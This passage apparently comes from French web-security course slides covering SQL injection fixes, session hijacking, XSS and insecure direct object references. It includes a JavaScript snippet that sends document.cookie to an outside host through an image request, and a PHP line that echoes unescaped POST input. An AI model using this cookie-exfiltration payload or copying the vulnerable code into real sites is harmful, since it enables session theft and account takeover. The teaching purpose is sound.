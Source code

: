 ### Correction

```php
$stmt = $pdo->prepare("SELECT * FROM client WHERE id=?");
$stmt->bindParam(1, $_GET["id"]);
$stmt->execute();
```

---

### Accès non autorisé à une session

```
http://exemple.com/?jsessionid=A2938298D293
```

---

Vol du cookie de session

```javascript
// Exemple de vol d'un cookie de session en JavaScript
var img = new Image();
img.src = "http://exemple.com/?jsessionid=" + document.cookie;
document.body.appendChild(img);
```

---

### Cross-Site Scripting (XSS)

Exécution de code JavaScript sans validation.

- XSS Stocké (base de données).
- XSS Réfléchi (URL / Lien).

---

```html
Votre Nom : <input type="text" name="nom" value="" />
```

```js
echo "Bonjour " . $_POST['nom'];
```

---

### A4 - Références directes non sécurisées à un objet

```
http://exemple.com/liste?mode=client
```

Si je change client par … admin ?

---
